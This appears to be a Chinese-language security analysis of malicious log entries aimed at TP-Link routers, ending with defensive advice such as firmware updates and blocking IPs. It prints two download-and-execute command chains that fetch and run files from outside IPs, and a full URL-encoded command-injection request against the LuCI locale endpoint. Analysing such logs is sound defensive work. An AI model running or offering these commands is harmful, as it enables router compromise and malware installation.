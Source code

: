- cd /tmp  
：切换到系统的临时目录/tmp  
。  
  
- rm -rf shk  
：如果存在名为shk  
的文件或目录，则删除它，以确保后续下载的文件不会因为同名而冲突。  
  
- wget http://66.187.6.203/shk  
：从指定的远程服务器下载名为shk  
的文件。这个文件很可能是恶意脚本。  
  
- chmod 777 shk  
：给予下载的shk  
文件执行权限，确保任何人都能运行它。  
  
- ./shk tplink  
：执行下载的shk  
脚本，并传入参数tplink  
。这个脚本可能根据传入的参数执行特定的恶意行为，比如攻击tplink路由器、收集敏感信息、开启后门等。  
  
- rm -rf shk  
：执行完毕后，再次删除shk  
文件，企图抹去攻击痕迹。  
  
这种攻击显然是为了在目标设备上下载并执行恶意代码，对设备安全构成严重威胁。如果你遇到这样的请求记录，应立即检查设备是否已被入侵，加强系统安全设置，更新固件，并考虑使用防火墙规则阻止与已知恶意IP的通信。同时，报告此事件给网络安全专家或相应厂商，以便他们采取进一步行动。  
  
**/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F94.156.71.83%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60)**  
```
cd /tmp; 
rm -rf r; 
wget http://94.156.71.83/r; 
chmod 777 r; 
./r tplink; 
rm -rf r
```  
  
这里发生了以下操作：  
- 切换到/tmp目录。  
  
- 删除已存在的名为r的文件（如果有），以准备下载新的恶意文件。  
  
- 从攻击者控制的服务器http://94.156.71.83/r下载文件名为r的恶意脚本。  
  
- 赋予下载的文件执行权限（chmod 777 r）。  
  
- 执行下载的脚本./r，并传递参数tplink。这表明脚本可能根据不同的参数执行定制的恶意行为，此处可能针对的是tplink路由器或含有类似标识的系统。  
  
- 最后再一次删除恶意脚本r，企图隐藏攻击痕迹。  
  
此类攻击意在远程控制目标设备、窃取敏感信息或部署持久化后门。如果你遇到这样的日志条目，应当立即采取以下措施：  
- 检查系统是否有异常活动迹象。  
  
- 更新设备的固件至最新版本，修复可能存在的安全漏洞。  
  
- 确保网络防火墙规则阻止与已知恶意IP的通信。  
  